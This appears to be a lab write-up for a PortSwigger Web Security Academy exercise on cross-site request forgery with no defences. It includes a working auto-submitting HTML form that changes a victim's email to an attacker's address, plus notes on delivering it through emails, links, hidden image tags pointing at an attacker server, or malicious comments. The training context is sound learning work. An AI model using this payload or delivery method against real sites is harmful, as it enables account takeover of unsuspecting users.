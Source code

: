 ___

## CSRF

### Lab: CSRF vulnerability with no defenses

Go to "My account" and log in with the given credentials <br>

Username: wiener<br>
Password: peter

Now we can see a section to change our email.

![alt](lab14.png)

If we enter an email while having Burp Proxy running, we can see the POST request to `/my-account/change-email HTTP/2` with body `email=newemail%40normal.com`. 

So now we know that we need to construct an HTML that makes a POST request to `/my-account/change-email HTTP/2` but has as body our email.

```html
<html>
    <body>
        <form action="https://0a400076042ec1f4817e750d00c9009d.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Now by using social engineering methods we can trick the user to run this HTML file. If the user loads this page and is already authorized to the website, then his email will be changed without him noticing.

Note: The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a website that they control, and then induce victims to visit that website. This might be done by feeding the user a link to the website, via an email or social media message. Or if the attack is placed into a popular website (for example, in a user comment), they might just wait for users to visit the website.
For example we could send an email with an image tag, like `img src="http://attacker-server/csrf-exploit.html" width="0" height="0" border="0"` redirecting to the above html file hosted on our server.

In this case we got a server ready by PortSwigger, so we just need to enter our payload and press the "Deliver exploit to victim".

![alt](lab15.png)

We have sucessfully solved the lab!
